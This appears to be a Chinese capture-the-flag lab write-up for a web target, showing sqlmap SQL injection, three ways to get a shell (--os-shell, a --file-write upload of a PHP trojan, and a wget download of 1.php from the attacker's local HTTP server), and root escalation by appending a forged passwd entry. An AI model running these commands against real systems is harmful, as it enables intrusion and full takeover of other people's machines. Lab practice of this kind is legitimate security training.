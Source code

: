 # 云尘-AI-Web-1.0

继续！

开扫



<img src="https://i-blog.csdnimg.cn/blog_migrate/da962ffbb2dbc11751a5eb1a542e480d.png" alt="" style="max-height:172px; box-sizing:content-box;" />


继续先测试web



<img src="https://i-blog.csdnimg.cn/blog_migrate/fd6b1ca5b32827cc889c3b5e6c45d685.png" alt="" style="max-height:138px; box-sizing:content-box;" />




<img src="https://i-blog.csdnimg.cn/blog_migrate/3a149f09da38dbc1bd3ef899aa45d680.png" alt="" style="max-height:350px; box-sizing:content-box;" />


sql注入直接sqlmap跑

通过注入 （sqlmap查询方式省略）



<img src="https://i-blog.csdnimg.cn/blog_migrate/a710e882950c2a0291be13e2ab49a862.png" alt="" style="max-height:235px; box-sizing:content-box;" />


存在systemuser 不知道会不会是电脑的密码 我们解密一下然后直接试试看

然后失败 这里就没有思路了 但是我们刚刚存在一个目录 我们再扫扫看

无果 换另一个目录

扫出来了 /m3diNf0/info.php 去看看



<img src="https://i-blog.csdnimg.cn/blog_migrate/4cb1ab154305467b6af19ad3d3d8f558.png" alt="" style="max-height:478px; box-sizing:content-box;" />


这下就开朗了

因为这里可以获取 绝对路径 那么我们就可以直接通过 sqlmap进行getshell 这里介绍三种

## 第一种 --os-shell

```cobol
/home/www/html/web1x443290o2sdf92213/se3reTdir777/uploads/
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/9e8b50362c8ba3db6a0cfea1b353c61d.png" alt="" style="max-height:471px; box-sizing:content-box;" />


我们就getshell了

## 第二种  --file-write

一样是通过sqlmap

来上传文件 首先写一个木马

然后通过

```erlang
--file-write 木马文件 --file-dest 存放目录
```

上传文件

```cobol
py3 .\sqlmap.py -r C:\Users\Administrator\Desktop\1.txt --file-write C:\Users\Administrator\Desktop\1.php --file-dest /home/www/html/web1x443290o2sdf92213/se3reTdir777/uploads/1.php
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/b69ab9364874a5b542fa457e82ca8adb.png" alt="" style="max-height:286px; box-sizing:content-box;" />


上传失败 但是学到了

## 第三种 wegt

首先就是本机开启web服务

用py即可

```cobol
py3 -m http.server 8888
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/4ae84508b79bebae522bec84d54d2f33.png" alt="" style="max-height:904px; box-sizing:content-box;" />


开启 服务后 去sqlmap的shell 中下载即可

```cobol
 wget http://10.8.0.174:8888//1.php
```

这里因为是靶场 所以找不到本身 的ip 后面发现在openvpn里存在



<img src="https://i-blog.csdnimg.cn/blog_migrate/49ce12b61fcb26c3a966fde9a6e10afe.png" alt="" style="max-height:109px; box-sizing:content-box;" />




<img src="https://i-blog.csdnimg.cn/blog_migrate/9539f94c5fd763c8b1a0cbf31b3fe117.png" alt="" style="max-height:227px; box-sizing:content-box;" />


这里就成功

然后我们链接后查看一下 如何提权

首先就是查看/etc/passwd的权限

```cobol
-rw-r--r-- 1 www-data www-data 1664 Aug 21  2019 /etc/passwd
```

发现 有w 可写 那么我们就通过openssl伪造一下

```cobol
openssl passwd -1 -salt hack 123456
```

然后我们看看root怎么写的

```ruby
root:x:0:0:root:/root:/bin/bash
 
x为密码 就是上面生成的
 
hack:$1$hack$.JxSX4bOP1WSqH0kCgs9Y.:0:0:root:/root:/bin/bash
```

然后通过echo写入

```typescript
echo 'hack:$1$hack$.JxSX4bOP1WSqH0kCgs9Y.:0:0::/root:/bin/bash' >> /etc/passwd
```

sudo hack 会报错



<img src="https://i-blog.csdnimg.cn/blog_migrate/323bc49d12d1f918082c059a0dcd316e.png" alt="" style="max-height:53px; box-sizing:content-box;" />


我们使用py命令

```rust
python -c 'import pty;pty.spawn("/bin/bash")'
```

但是最后无法实现 靶机被打坏了。。。。。